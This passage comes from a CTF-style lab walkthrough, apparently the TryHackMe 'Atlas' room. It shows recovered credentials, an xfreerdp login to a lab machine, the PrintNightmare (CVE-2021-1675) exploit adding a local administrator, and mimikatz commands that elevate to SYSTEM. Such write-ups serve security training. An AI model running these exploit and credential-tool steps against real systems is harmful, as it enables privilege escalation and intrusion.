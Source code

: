 ```
                
[+] Credentials Found!
Username:       Atlas
Password:       H0ldUpTheHe@vens
```

- Use the credentials found by the script to get past the HTTP Basic Auth presented when trying to access the vulnerable service in your web browser. You should have access to a user desktop!

And from this web browser interface, we can connect remotely to the targeted machine ^^

# Task 5: Access - VNC/RDP

- Connect with **xfreerdp**
```
xfreerdp /v:10.10.134.226 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```
# Task 6: Attack - Privilege escalation

- Download the script to the targeted machine

```
PS C:\Users\Atlas> . \\tsclient\share\CVE-2021-1675.ps1

Security warning
Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your
computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning
message. Do you want to run \\tsclient\share\CVE-2021-1675.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): R
```

- Run the exploit
```
PS C:\Users\Atlas> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
PS C:\Users\Atlas>
```

- Now , we can launch a new Pwershell as Administrator ^^
# Task 7: Attack : Post exploitation

- Download [mimikatz](https://github.com/gentilkiwi/mimikatz/releases) and use it in the targeted machine
- Use the command
```
privilege::debug -- this obtains debug privileges which (without going into too much depth in the Windows privilege structure) allows us to access other processes for "debugging" purposes.
token::elevate -- simply put, this takes us from our administrative shell with high privileges into a SYSTEM level shell with maximum privileges. This is something that we have a right to do as an administrator, but that is not usually possible using normal Windows operations.
```
